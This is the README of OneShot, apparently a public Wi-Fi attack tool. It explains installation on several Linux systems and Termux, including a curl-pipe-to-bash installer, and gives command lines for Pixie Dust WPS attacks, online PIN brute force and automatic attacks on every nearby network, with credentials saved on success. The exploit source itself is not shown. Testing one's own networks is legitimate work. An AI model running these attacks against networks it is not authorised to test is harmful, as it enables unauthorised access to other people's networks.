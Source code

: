 
# Overview
**OneShot** performs [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) without having to switch to monitor mode.
# Features
 - [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack);
 - integrated [3WiFi offline WPS PIN generator](https://3wifi.stascorp.com/wpspin);
 - [online WPS bruteforce](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf);
 - Wi-Fi scanner with highlighting based on iw;
 - Auto Mode to select networks and perform attacks automatically
# Requirements
 - Python 3.6 and above;
 - [Wpa supplicant](https://www.w1.fi/wpa_supplicant/);
 - [Pixiewps](https://github.com/wiire-a/pixiewps);
 - [iw](https://wireless.wiki.kernel.org/en/users/documentation/iw).
# Setup
## Debian/Ubuntu
**Installing requirements**
 ```
 sudo apt install -y python3 wpasupplicant iw wget
 ```
**Installing Pixiewps**

***Ubuntu 18.04 and above or Debian 10 and above***
 ```
 sudo apt install -y pixiewps
 ```
 
***Other versions***
 ```
 sudo apt install -y build-essential unzip
 wget https://github.com/wiire-a/pixiewps/archive/master.zip && unzip master.zip
 cd pixiewps*/
 make
 sudo make install
 ```
**Getting OneShot**
 ```
 cd ~
 wget https://raw.githubusercontent.com/drygdryg/OneShot/master/oneshot.py
 ```
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:
 ```
 wget https://raw.githubusercontent.com/drygdryg/OneShot/master/vulnwsc.txt
 ```
## Arch Linux
**Installing requirements**
 ```
 sudo pacman -S wpa_supplicant pixiewps wget python
 ```
**Getting OneShot**
 ```
 wget https://raw.githubusercontent.com/drygdryg/OneShot/master/oneshot.py
 ```
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:
 ```
 wget https://raw.githubusercontent.com/drygdryg/OneShot/master/vulnwsc.txt
 ```
## Alpine Linux
It can also be used to run on Android devices using [Linux Deploy](https://play.google.com/store/apps/details?id=ru.meefik.linuxdeploy)

**Installing requirements**  
Adding the testing repository:
 ```
 sudo sh -c 'echo "http://dl-cdn.alpinelinux.org/alpine/edge/testing/" >> /etc/apk/repositories'
 ```
 ```
 sudo apk add python3 wpa_supplicant pixiewps iw
 ```
 **Getting OneShot**
 ```
 sudo wget https://raw.githubusercontent.com/drygdryg/OneShot/master/oneshot.py
 ```
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:
 ```
 sudo wget https://raw.githubusercontent.com/drygdryg/OneShot/master/vulnwsc.txt
 ```
## [Termux](https://termux.com/)
Please note that root access is required.  

#### Using installer
 ```
 curl -sSf https://raw.githubusercontent.com/drygdryg/OneShot_Termux_installer/master/installer.sh | bash
 ```
#### Manually
**Installing requirements**
 ```
 pkg install -y root-repo
 pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
 ```
**Getting OneShot**
 ```
 git clone --depth 1 https://github.com/drygdryg/OneShot OneShot
 ```
#### Running
 ```
 sudo python OneShot/oneshot.py -i wlan0 --iface-down -K
 ```

# Usage
```
 usage: oneshot.py [-h] -i INTERFACE [-b BSSID] [-s SSID] [-p PIN] [-K] [-F] [-X] [-A] [-P PIN_INDEX] [-B] [--pbc] [-d DELAY]
                  [-w] [--iface-down] [--vuln-list VULN_LIST] [-l] [-r] [--mtk-wifi] [-v]

OneShotPin 0.0.2 (c) 2017 rofl0r, drygdryg and fulvius31

options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Name of the interface to use
  -b BSSID, --bssid BSSID
                        BSSID of the target AP
  -s SSID, --ssid SSID  SSID of the target AP
  -p PIN, --pin PIN     Use the specified pin (arbitrary string or 4/8 digit pin)
  -K, --pixie-dust      Run Pixie Dust attack
  -F, --pixie-force     Run Pixiewps with --force option (bruteforce full range)
  -X, --show-pixie-cmd  Always print Pixiewps command
  -A, --auto            Attempt to Autopwn all the bssids
  -P PIN_INDEX, --pin-index PIN_INDEX
                        Select from index of automatically generated pins
  -B, --bruteforce      Run online bruteforce attack
  --pbc, --push-button-connect
                        Run WPS push button connection
  -d DELAY, --delay DELAY
                        Set the delay between pin attempts
  -w, --write           Write credentials to the file on success
  --iface-down          Down network interface when the work is finished
  --vuln-list VULN_LIST
                        Use custom file with vulnerable devices list
  -l, --loop            Run in a loop
  -r, --reverse-scan    Reverse order of networks in the list of networks. Useful on small displays
  --mtk-wifi            Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit (for internal Wi-Fi
                        adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
  -v, --verbose         Verbose output

 ```

## Usage examples
Start oneshot in auto mode:
 ```
 sudo python3 oneshot.py -i wlan0 -A
 ```
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 oneshot.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 oneshot.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running OneShot with the `--mtk-wifi` flag to initialize Wi-Fi device driver.
# Acknowledgements
## Special Thanks
* `rofl0r` for initial implementation;
* `Monohrom` for testing, help in catching bugs, some ideas;
* `Wiire` for developing Pixiewps.
